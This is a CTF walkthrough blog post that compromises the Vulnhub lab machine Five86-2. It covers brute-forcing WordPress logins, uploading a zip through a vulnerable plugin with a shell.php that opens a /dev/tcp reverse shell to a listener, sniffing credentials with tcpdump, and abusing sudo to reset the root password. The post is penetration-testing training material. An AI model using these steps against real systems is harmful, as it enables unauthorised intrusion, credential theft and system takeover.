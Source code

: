 ```yaml
---
title: 'Five86-2: Vulnhub Walkthrough'
date: 2020-01-22T18:31:00+01:00
draft: false
---
```


Today we are sharing another CTF walkthrough of the vulnhub machine named Five86-2 with the intent of gaining experience in the world of penetration testing. The credit goes to m0tl3ycr3w and syed umar for design this machine and the level is set to beginner to advanced.

According to the author: The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

Download it from here: **https://ift.tt/30UMyCR**

### **Penetration Testing Methodologies**

**Network scanning**

*   Netdiscover
*   Nmap

**Enumeration**

*   Exploring Http services
*   WordPress scanning (Wpscan)

**Exploit WordPress**

**Privilege Escalation**

*   Abusing capability
*   Abusing Sudo

**Walkthrough**

### **Network Scanning**

As you know, this is the initial phase where we choose **netdiscover** for network scan for identifying host IP and this we have **192.168.0.114** as our host IP.

![](https://i1.wp.com/1.bp.blogspot.com/-GA5Q4WM9s4I/XiiDCq_y7FI/AAAAAAAAiT4/FYxsJ4abAjkcM7VoehA29MyLhr0yEu0gQCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

```
nmap -A 192.168.0.114
```

From its scanning, we found port 21 is open for FTP and port 80 is open HTTP where wordpress is running on apache.

![](https://i0.wp.com/1.bp.blogspot.com/-SLDFGaE9z20/XiiDFiVzJmI/AAAAAAAAiUU/KtGe8XkltIsARI-BlbQHsd1wP4Pqh5E8wCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

### **Enumeration**

Thus, we navigate to a web browser and browse the following URL and found open wordpress application is running on the webserver.

```
http://192.168.0.114
```

![](https://i1.wp.com/1.bp.blogspot.com/-y46J0YWmzyQ/XiiDGDuwloI/AAAAAAAAiUc/t4TXZyunkW4zhsrbwFg6Mz9aOipuXjnZQCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

Since we found the wordpress on the host machine thus we choose wpscan and run following commands for wordpress scanning.

```
 wpscan --url http://192.168.0.114 --enumerate u
```

![](https://i2.wp.com/1.bp.blogspot.com/-cFMPFHQ64IU/XiiDGqj_gQI/AAAAAAAAiUg/dj7iJW8J__8mexsDiD8DK7GrczjRykSKQCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

From its scanning result, we enumerated 5 usernames: peter, admin, barney, gillian, Stephen as shown in the image below.

![](https://i1.wp.com/1.bp.blogspot.com/-QE0Se1sP08g/XiiDHP_PgPI/AAAAAAAAiUk/Y_0qVMcSQgQIsivBqUz3Il5tMkjlp6tGgCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

We used rockyou.txt wordlist for password brute force attack to enumerate the password, so we saved above-mentioned username in a text file named user.txt and then launched brute force attack by executing the following command.

```
wpscan --url http://192.168.0.114  -U user.txt -P /usr/share/wordlists/rockyou.txt
```

![](https://i2.wp.com/1.bp.blogspot.com/-ZKYPapsR0J8/XiiDHS41MOI/AAAAAAAAiUo/pNI4apKJh1w7yT1tw2RV7iqV-H7JqNoiQCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

From its scanning result, we found a password for barney and stephen as given below.

```
Barney:spooky1  
Stephen: apollol
```

![](https://i0.wp.com/1.bp.blogspot.com/-rhh2yKATz3Q/XiiDHpvofcI/AAAAAAAAiUs/0RFeUd8jocsT6MxLsYT1AnWg--gC_8KCwCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

To access the website properly we added the hostname and host IP within /etc/hosts file.

![](https://i2.wp.com/1.bp.blogspot.com/-U0aGbVcP7OM/XiiDIAkhLuI/AAAAAAAAiUw/7zHtCpQEsekd6jTl730dOANbbqOEIj78QCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

Furthermore, using the Barney login credential we logged in to the wordpress and found a plugin “Insert or Embed Articulate Content into WordPress” was installed. We searched in the google to find out more about it and found a method on **[Exploit\_DB](https://www.exploit-db.com/exploits/46981)** to exploit this plugin to obtain a reverse connection.

![](https://i0.wp.com/1.bp.blogspot.com/-z0-jWJlcu3o/XiiDIR39wDI/AAAAAAAAiU0/Ly3-YckuQ1My4HrBPCdovgIAxeG5ikPUgCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

Exploiting WordPress         

For exploiting WordPress installed plug-in follow the step given below.

1.  Create a .zip archive with two files as: index.html, index.php

```
echo "hello" > index.html  
echo "& /dev/tcp/192.168.0.115/1234 0>&1'");" > shell.php  
zip raj.zip index.html shell.php
```

![](https://i1.wp.com/1.bp.blogspot.com/-d7Hn_WL3Atk/XiiDCczAXXI/AAAAAAAAiT0/h1_L-8Tgoro_7xXbA3h5JcLB_mFiT1aqQCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

2.  login to wordpress as barney
3.  Create a new Post -> Select `Add block` -> E-Learning ->

![](https://i2.wp.com/1.bp.blogspot.com/--aoPPvSVyJs/XiiDCQ3XyqI/AAAAAAAAiTw/L3WapXRfeE0I9BoZ4Q1jrouJlmnZ3HIhwCLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

2.  Choose upload option for uploading your zip file.

![](https://i2.wp.com/1.bp.blogspot.com/-IjEAWouN6Rs/XiiDDk_fouI/AAAAAAAAiT8/VtrSrLtcuOUKOdc5CqniyE_u3YHsLlDJQCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

3.  Browse and Upload the raj.zip -> Insert as: Iframe -> Insert

![](https://i2.wp.com/1.bp.blogspot.com/-usVYLSZVhpw/XiiDD3_dBpI/AAAAAAAAiUA/t4bIJKqO1RwF7ZZvmwIEYUhWlaOCNbKiACLcBGAsYHQ/s1600/13.png?w=687&ssl=1)

Start netcat listener on your local machine and access the webshell from the URL after uploading the zip file as shown:

```
nc -lvp 1234  
five86-2/wp-content/uploads/articulate\_uploads/raj/shell.php
```

![](https://i0.wp.com/1.bp.blogspot.com/-ht_sk_AFzrk/XiiDENjaF2I/AAAAAAAAiUE/M9vpSxwl9Jo7xS5EqcomhWNXd4YtBFuygCLcBGAsYHQ/s1600/14.png?w=687&ssl=1)

Booom!! We got the reverse connection with the help of netcat session, but we know, this is a root to boot challenge hence we need to escalate the privilege try to gain access high privilege shell. So, we start post enumeration and find capability permission is given to Stephen for tcpdump.

```
su stephen  
apollo1  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
getcap -r /2>/dev/null
```

So, we run the following command which reveals the UP & running interfaces.

```
tcpdump -D
```

![](https://i0.wp.com/1.bp.blogspot.com/-3gW-XX4U4DQ/XiiDEmObwyI/AAAAAAAAiUI/cdPhoO80NUwXEwMqN5-_eYCl79VuuDwLgCLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

### **Privi****lege Escalation**

As we have seen in the above image that tcpdump has the capabilities to capture all network traffic even in low-privileged access, therefore I trigger the following command to inspect “**veth1665bcd**” traffic if possible, and save the output in a pcap file “cap.pcap”.

```
timeout 150 tcpdump -w cap.pcap -i veth1665bcd
```

With the help of of “-r” option we try to the pcap file and luckily found credentials

```
Username: paul  
Password: esomepasswford
```

![](https://i2.wp.com/1.bp.blogspot.com/-9HR0ZxT0S_w/XiiDFMjQ7SI/AAAAAAAAiUQ/Qn5GR7wq6kQvwjdctN_LmQQeLihU5R-fgCLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

So with the help of above credential, we switch to paul account and check for sudo permission for him. We found paul has sudo permission to run /usr/sbin/service program as peter.

```
sudo -l  
sudo -u peter service ../../bin/sh
```

With the help above command, we were able to access shell as peter.

![](https://i2.wp.com/1.bp.blogspot.com/-ZSOPXxbMUrg/XiiDE8p1wVI/AAAAAAAAiUM/K3mwqe92T9o0xHH8nOpSiG7DND7g83KxACLcBGAsYHQ/s1600/17.png?w=687&ssl=1)

Then we check sudo right for peter and found he has ALL permission to run any program as root, but we don’t know Peter’s password and moreover peter owns sudo right for /usr/bin/passwd as root. In order to access root, we try to abuse the sudo permission by changing root’s password and try to get the final flag.

```
sudo passwd root  
new password: raj  
su root  
cd root  
cat flag.txt
```

![](https://i0.wp.com/1.bp.blogspot.com/-tZC1GfGlQgY/XiiDF6AUnuI/AAAAAAAAiUY/RxpKHPfRiKoEz1V0pcVeATWyZDBOxLiRwCLcBGAsYHQ/s1600/20.png?w=687&ssl=1)

**Author: **Shubham Sharma is a Pentester, Cybersecurity Researcher and Enthusiast, contact **[here](https://www.linkedin.com/in/shubham-sharma-626964153/)**.

The post [Five86-2: Vulnhub Walkthrough](https://www.hackingarticles.in/five86-2-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/38zkCHd